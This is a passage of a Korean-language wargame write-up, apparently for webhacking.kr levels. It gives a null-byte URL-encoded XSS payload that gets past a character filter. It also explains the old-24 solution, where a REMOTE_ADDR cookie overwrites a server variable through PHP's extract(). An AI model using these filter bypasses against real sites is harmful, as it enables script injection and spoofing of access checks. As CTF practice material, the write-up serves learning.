

 
위의 폼으로 `<script>alert(1);</script>` 를 삽입해야 하는 것 같다.

문자열 2개가 붙어있는 것을 filtering하길래 NULL값을 url인코딩으로 넣어봤더니 막히지 않는다. 

`<%00s%00c%00r%00i%00p%00t%00>a%00l%00e%00r%00t%00(%001%00)%00;%00<%00/%00s%00c%00r%00i%00p%00t%00>`

다음 코드를  URL에 넣어주면 성공.



<br>

# old-24

___쿠키 인젝션___


```PHP
<?php
  extract($_SERVER);
  extract($_COOKIE);
...
  if($REMOTE_ADDR){
    $ip = htmlspecialchars($REMOTE_ADDR);
    $ip = str_replace("..",".",$ip);
    $ip = str_replace("12","",$ip);
    $ip = str_replace("7.","",$ip);
    $ip = str_replace("0.","",$ip);
  }
  if($HTTP_USER_AGENT){
    $agent=htmlspecialchars($HTTP_USER_AGENT);
  }
  echo "<table border=1><tr><td>client ip</td><td>{$ip}</td></tr><tr><td>agent</td><td>{$agent}</td></tr></table>";
  if($ip=="127.0.0.1"){
    solve(24);
    exit();
...
?>
```

소스코드에 따르면 `$REMOTE_ADDR == 112277...00...00...1`일 때 solve가 작동한다.

그러나 `$_SERVER[REMOTE_ADDR]` 값은 바꿀 수가 없다!

extract() 함수를 보면, `$_SERVER` 환경변수와 `$_COOKIE` 환경변수 배열 속의 키값을 변수화시켜준다는 것을 보아,

 `REMOTE_ADDR`를 이름으로 하는 쿠키를 삽입해야겠다는 생각이 든다.



다음과 같이 삽입하고 새로고침하면 성공.



<br>

# old-25

______